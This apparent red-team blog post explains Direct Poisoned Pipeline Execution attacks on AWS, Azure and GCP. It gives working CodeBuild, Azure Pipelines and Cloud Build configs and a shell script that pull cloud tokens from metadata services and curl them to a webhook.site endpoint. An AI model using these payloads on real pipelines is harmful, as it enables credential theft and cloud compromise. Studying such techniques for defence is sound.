 ```yaml
---
title: "Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP"
date: 2025-09-27T08:15:04+00:00
tags: ["Azure","AWS","GCP","DevOps","DevSecOps","pipeline","Poisoned Pipeline Execution","Direct-PPE"]
description: "In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments."
cover:
    image: ""
    alt: "Direct-PPE"
    relative: false
    hidden: false
    responsiveImages: true
---
```

# Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP
In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments.

## Direct-PPE
First, let’s clarify what Direct Poisoned Pipeline Execution (Direct-PPE) means and outline the breach scenario we’ll use to demonstrate how attackers can leverage it to further compromise cloud environments like AWS, Azure, and GCP.

Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.

We have three types of PPE
- Direct PPE (D-PPE) : This occurs when an attacker gains direct access to the pipeline configuration. For example, they might obtain a personal access token (PAT), valid user credentials, or even a session cookie for the SCM platform, giving them the ability to modify and execute malicious changes in the pipeline configuration.
- Indirect PPE (I-PPE): This means the attacker doesn’t have direct access to the pipeline configuration files but can still compromise the pipeline by injecting malicious code into files referenced by the configuration. Examples include Makefiles, test code, scripts, or automation tools that the pipeline relies on during execution.
- Public-PPE (3PE): This is often the most dangerous scenario. If the CI pipeline of a public repository automatically runs unreviewed code submitted by anonymous contributors, it becomes vulnerable to a Public PPE (3PE) attack. This can lead to exposure of internal assets—such as secrets from private projects—especially when the public repository’s pipeline shares the same CI instance or infrastructure as private repositories.

In the next section, we’ll assume the breach has already occurred, the attacker has access to the SCM, access by having an authentication method to the organization’s source code management. It may be a personal access token (PAT), an SSH key, or any other allowed authentication credential. An example of a method an attacker can use to achieve this technique is using a phishing attack against an organization. We’ll explore how they can escalate privileges further to gain access to cloud environments.

## AWS
![image](/img/aws_killchain.png)

Because we have access to the code repository, we can use the Direct PPE attack vector to enumerate the permissions under which the pipeline is running. This can be done by querying the Instance Metadata Service (IMDS) available in the cloud environment.
In the example pipeline, I’m using webhook.site to exfiltrate captured data.

```yaml
version: 0.2

phases:
  pre_build:
    commands:
      - curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data "$(curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI)"
```
You can manually retrieve the temporary role credentials from inside a container by appending the environment variable to the IP address of the Amazon ECS container agent and running the curl command on the resulting string.
```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```
This token and the role credentials are added to the agent's internal cache. The agent populates the environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI in the container with the URI of the credential ID (for example, /v2/credentials/12345678-90ab-cdef-1234-567890abcdef).

![image](/img/aws_webhook.png)

The exfiltrated token can then be stored in environment variables and used with the AWS CLI to interact with the compromised cloud environment.

![image](/img/awscli1.png)

After gaining initial access, you can begin enumerating the AWS environment to identify pivot points and locate weak spots that can be exploited for further privilege escalation or lateral movement.

![image](/img/awscli2.png)

![image](/img/awscli3.png)


## Azure
![image](/img/azure_killchain.png)

We can easily exfiltrate the Azure DevOps agent access token, enumerate Azure DevOps projects, and search for additional secrets or clues to further escalate our privileges.
If the pipeline configuration contains a service connection, as shown in the upcoming example, we can directly exfiltrate that service connection and pivot into Azure environments in a straightforward way.

```yaml
- task: AzureCLI@2
  inputs:
    azureSubscription: $(azureSubscription)
    scriptType: bash
    scriptLocation: inlineScript
    inlineScript: |
      # Export Azure access token
      ACCESS_TOKEN=$(az account get-access-token --query accessToken -o tsv)
      SUB_ID=$(az account show --query id -o tsv)
      curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type: text/plain' --data "ACCESS_TOKEN=$ACCESS_TOKEN SUB_ID=$SUB_ID"
```

![image](/img/azure_webhook.png)

Decode the JWT using JWT.io and under decoded payload section, note the value of field titled tid which will be the Account Id/Tenant ID.
- Tenant ID will also appear in other values as well.
- Additionally, subscription ID, resource group , and resource name will be present too.

![image](/img/azurecli.png)

Install Azure PowerShell module with the below command
```
Install-Module -Name Az -Repository PSGallery -Force
```

Run below PowerShell commands to authenticate with the
Azure Cloud using the exfiltrated Identity Token and the
Account ID (from decoding the JWT)

![image](/img/azurecli.png)

We have successfully established a connection to Azure, allowing us to continue with the post-exploitation process and expand our access within the environment!

## GCP
![image](/img/gcp_attackchain.png)

Just like AWS and Azure, GCP also provides a metadata service. We can leverage it in the same way to retrieve and exfiltrate access tokens for further use in the attack chain.

Create a Shell script file named malicious.sh in the root
directory of the source code. Using this file we’ll exfiltrate the
default service account token to the webhook dashboard.
```bash
#!/bin/sh
apt update && apt install curl -y
token=$(curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google")
echo $token > token.txt
curl -X POST 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data '@token.txt'
```
Create a new build stage in cloudbuild.yaml file with the below
configurations.
```
- name: 'ubuntu'
args: ['bash', './malicious.sh']
```
![image](/img/gcp_webhook.png)

Use below command to inspect the details of an OAuth 2.0
access token issued by Google's IAM services.
```
curl https://oauth2.googleapis.com/tokeninfo?access_token=<EXFILTRATED_TOKEN>
```
![image](/img/gcpcli1.png)

Then we can enumerate the GCP project metadata with the
below command. It will give us the Project ID & other information.

![image](/img/gcpcli2.png)

We have successfully established a connection to GCP, allowing us to continue with the post-exploitation process and expand our access within the environment!

# Summary
This post explains how attackers can abuse Direct Poisoned Pipeline Execution (Direct-PPE) to steal credentials and escalate privileges in AWS, Azure, and GCP environments. Direct-PPE occurs when an attacker gains access to a source code management (SCM) system (e.g., via stolen credentials or a PAT) and modifies the pipeline configuration to run malicious commands.
Overall, the post highlights how attackers can pivot from SCM access to full cloud environment compromise using poisoned pipeline techniques.





